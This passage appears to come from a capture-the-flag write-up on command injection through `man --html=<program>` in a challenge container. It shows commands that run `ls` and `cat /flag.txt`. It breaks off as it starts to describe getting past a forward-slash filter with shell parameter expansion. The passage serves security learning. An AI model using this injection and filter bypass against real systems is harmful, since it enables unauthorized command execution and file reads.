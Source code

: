 So, theoretically, if I specify another binary that isn't a browser, it should execute. I tried to do this locally and execute the `ls` command, but it didn't work. I don't know the reason why but might be because it's a different implementation of `man` compared to the container's `man` binary.

```
$ man --html=ls man
man: command exited with status 3: (cd /tmp/hmanyFvR7I && /usr/libexec/man-db/zsoelim) | (cd /tmp/hmanyFvR7I && /usr/libexec/man-db/manconv -f UTF-8:ISO-8859-1 -t UTF-8//IGNORE) | (cd /tmp/hmanyFvR7I && preconv -e UTF-8) | (cd /tmp/hmanyFvR7I && tbl) | (cd /tmp/hmanyFvR7I && groff -mandoc -Thtml)
```

*EDIT: Someone mentioned it not working on local machine on discord after the CTF and hashkitten (the author) mentioned you need to install some packages.*

![Local Error Discussion](./local_error_discussion.png)

I ran it in a local docker container instead, using the provided Dockerfile to match the exact environment and I was able to execute the `ls` binary!

```
$ docker build -t manic .
$ docker run -it --entrypoint bash manic
nobody@21aa2caa1ab3:/app$ man --html=ls man
/tmp/hmandNHcO9/man.html
```

### Utilising the command injection

Testing with a few other commands, I found that the command being executed will look like this:

```
<BROWSER> <TMP_DIR>/<COMMAND>.html
```

So `man --html=ls man` will execute `ls /tmp/<RANDOM_STRING>/man.html`.

You can also include arguments for your commands like `man --html="ls -l" man`

Now all we have to do is read the flag!

```
man --html="cat /flag.txt" man
```

Sure that works on the docker container, however, there's a forward slash required in our payload! To bypass this, we identify that the command we specify in the HTML argument is safe from the `subprocess.run` function's safe argument passing, allowing us to do shell expansions. Therefore, we can specify a slash with parameter expansion as we know the first character of the env variable `PATH` will be "/": 

